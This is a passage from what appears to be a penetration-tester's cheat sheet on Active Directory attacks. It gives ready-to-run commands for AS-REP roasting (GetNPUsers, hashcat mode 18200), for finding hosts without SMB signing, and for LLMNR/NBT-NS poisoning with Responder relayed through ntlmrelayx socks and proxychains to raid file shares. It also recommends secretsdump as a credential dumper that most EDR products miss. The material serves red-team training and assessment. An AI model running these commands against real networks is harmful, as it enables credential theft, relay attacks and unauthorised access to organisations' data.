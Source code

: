 `GetNPUsers.py -no-pass -usersfile usernames.txt -format hashcat -outputfile asreproasthashes.txt domain.com/`

Then crack away!

`hashcat -m 18200`


### Responder  <a name="2.8"></a>

Responder is still alive and well. If you're on an active network, there is a good chance it'll work! 

Probably everyone and their grandma knows how to run Responder but here's the obligatory "run responder" section anyways. 

There's a few different ways to take advantage LLMNR/NBT-NS but I typically use it in combination with `ntlmrelayx` socks and `proxychains` to connect to captured SMB sessions and raid shares. 

If I get admin, `secretsdump`. It sounds dumb, but `secretsdump` has been very reliable for me over the years. Most EDR's miss it.


#### Checking for Susceptibility

Check for SMB Signing: 

`crackmapexec smb x.x.x.x/24 --gen-relay-list cme-genrelaylist.txt`

`nmap --script smb-security-mode.nse -v -p 445 -iL targets.txt`

Or this wrapper - [check-smb-signing](https://github.com/actuated/check-smb-signing)

Then check in analyze mode:

`/usr/share/responder/Responder.py -I eth0 -A`


#### Running Responder

Startup `ntlmrelayx` to proxy captured sessions:

`ntlmrelayx -smb2support -sock -tf cme-genrelaylist.txt` 

Adjust `proxychains.conf`:

```
...

[ProxyList]
socks4 	<YOUR MACHINES IP> 1080
```

Start poisoning:

`Responder.py -I eth0`

More details here on the socks proxy technique:

https://www.secureauth.com/blog/playing-with-relayed-credentials/

Then you can use something like, [manspider](https://github.com/blacklanternsecurity/MANSPIDER) and `proxychains` to search through any shares you now have access to for sensitive info.
